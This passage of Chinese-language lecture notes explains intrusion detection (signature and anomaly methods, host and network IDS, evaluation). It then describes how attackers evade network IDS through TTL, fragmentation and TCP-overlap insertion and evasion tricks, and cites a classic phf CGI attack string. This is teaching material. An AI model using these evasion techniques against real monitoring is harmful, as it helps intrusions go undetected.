-   被动措施：将入侵检测系统的发现报告给人类，然后期望他们根据这些报告采取行动。
-   主动措施：系统自动进行一些干预。

#### 滥用检测（基于签名的入侵检测）

寻找与预定义的事件模式或事件集相匹配的事件，描述了已知的攻击。这些模式被称为签名。

基于规则的系统：将入侵场景编码为一组规则。

基于状态的入侵场景表示。

优点：

-   在不产生过多虚假警报的情况下，非常有效地检测攻击。

缺点：

-   只能检测到已知的攻击-因此必须不断更新以获取新攻击的签名。
-   许多误用检测器被设计为使用严格定义的签名，以防止检测常见攻击的变体。

#### 异常检测

在主机或网络上识别异常的不寻常行为（异常）。它们的功能是基于这样的假设，即攻击与“正常”（合法）活动不同，因此可以通过识别这些差异的系统来检测到它们。

静态和动态：

-   静态：静态意味着系统的一部分保持不变，例如数据完整性、行程检查、病毒检查器。
-   动态：个人资料。一个个人资料由一组对每个维度的行为进行观察的度量组成。常用的维度包括：
    -   首选项，例如登录时间、登录位置和喜爱的编辑器。
    -   累积或单位时间内消耗的资源。

#### 异常检测方法

-   代表性的行动序列。
-   程序剖面：系统调用序列。

方法

-   阈值检测：用户和系统行为的某些属性以计数的形式表示，其中某个水平被确定为可接受的。这些行为属性可以包括用户在给定时间段内访问的文件数量，登录系统失败的尝试次数，进程使用的CPU量等。
-   统计度量
    -   参数化：假设被分析属性的分布符合特定模式
    -   非参数化：被分析属性的分布从一组随时间观察到的历史值中“学习”得出。
-   基于规则的措施：类似于非参数统计措施，观察到的数据定义了可接受的使用模式，但不同之处在于这些模式被指定为规则，而不是数值数量。
-   其他方法：
    -   机器学习
    -   数据挖掘
    -   神经网络、遗传算法等

优点

-   能够检测异常行为，从而能够在没有具体细节知识的情况下检测攻击的症状。
-   可以产生可用于定义滥用检测器签名的信息。

缺点：

-   通常由于用户和网络的不可预测行为而产生大量误报警。
-   通常需要大量的系统事件记录的“训练集”来描述正常行为模式。

#### 主机基础的入侵检测系统

-   使用操作系统审计机制：例如，Solaris中的BSM记录用户生成的所有直接和间接事件；strace监视程序所做的系统调用。
-   监控用户活动：分析shell命令。
-   监控系统程序的执行，例如sendmail的系统调用。

优点

-   可以检测到NIDS无法看到的攻击
-   可以在网络流量加密的环境中运行
-   不受交换网络的影响
-   可以帮助检测木马或其他涉及软件完整性破坏的攻击

缺点：

-   由于至少信息源驻留在受攻击目标的主机上，IDS可能会受到攻击并被禁用作为攻击的一部分
-   不适合检测针对整个网络的网络扫描或其他监视活动
-   由于它们使用被监视主机的计算资源，因此对被监视系统造成性能损耗。

#### 网络入侵检测系统 (NIDS)

-   使用数据包嗅探。
-   查看IP头部以及数据部分。
-   网络IDS的缺点:
    -   NIDS可能在大型或繁忙网络中难以处理所有数据包，因此在高流量期间可能无法识别发起的攻击。
    -   现代基于交换机的网络使NIDS更加困难：交换机将网络细分为许多小段，并为由同一交换机服务的主机提供专用链接。大多数交换机不提供通用监视端口
    -   网络入侵检测系统无法分析加密信息。
    -   大多数网络入侵检测系统无法判断攻击是否成功。

#### 评估入侵检测系统

-   误报
-   漏报
-   ROC曲线：接收操作特性曲线

#### 入侵检测系统的优势和限制

-   优点:
    -   检测越来越多的严重问题
    -   添加新的签名。
    -   正在开发新的方法。
-   缺点:
    -   入侵检测系统寻找已知的弱点（模式或正常行为）
    -   误报

### (2) 规避网络入侵检测

-   插入：击败签名分析
    -   概念示例
    -   真实示例: "Get /cgi-bin/phf?"
    -   解决方案：使入侵检测系统在处理从网络读取的数据包时尽可能严格。

```
终端系统看到： A  T  T  A  C  K
网络监视器看到： A  T  X  T  A  C  K
攻击者的数据流： T  X  T  C  A  A  K
```

-   规避
    -   概念示例

```
终端系统看到： A  T  T  A  C  K
网络监视器看到： A  T  T  C  K
攻击者的数据流： T  T  C  A  A  K
```

#### ❖ 如何实现基于IP的插入/规避攻击

-   ➤ 校验和（易于解决）
    ➤ TTL：对于IDS监视器来说足够大，但对于终端系统来说不够。
    ➤ 不分片
    ➤ IP选项：
        ■ 许多操作系统会自动拒绝源路由数据包。
        ■ 时间戳：丢弃格式非法的数据包
    ➤ MAC地址：将伪造的数据包寄给IDS的MAC地址，这样终端系统就不会接收到它。
    ➤ IP重组问题
        ➤ IDS也需要重组数据包。
        ➤ 容易受到DOS攻击。
        ➤ IDS必须像终端系统一样丢弃不完整的片段（或者延迟的片段）。 否则会存在不一致性。
        ➤ 重叠的片段：必须以与终端系统相同的方式处理它们。
            ■ Windows NT 4.0：始终偏向旧数据
            ■ Solaris 2.6：始终偏向旧数据
            ■ 4.4BSD：对于前向重叠，偏向新数据
            ■ Linux：对于前向重叠，偏向新数据

### 如何基于TCP实现插入/规避攻击？

-   ➤ TCP代码：带有非法代码的数据包将被丢弃。
    ➤ SYN数据包可能携带数据，某些实现可能不处理这些数据。
    ➤ TCP窗口大小：终端系统和IDS之间的不一致可能会导致问题。
    ➤ TCP重叠：NT 4.0偏向旧数据；其他系统偏向新数据。
    ➤ 建立TCP连接：IDS和终端系统之间的一致性。
    ➤ 终止TCP连接：一致性...

### IDS上的拒绝服务攻击

-   ➤ CPU、内存、带宽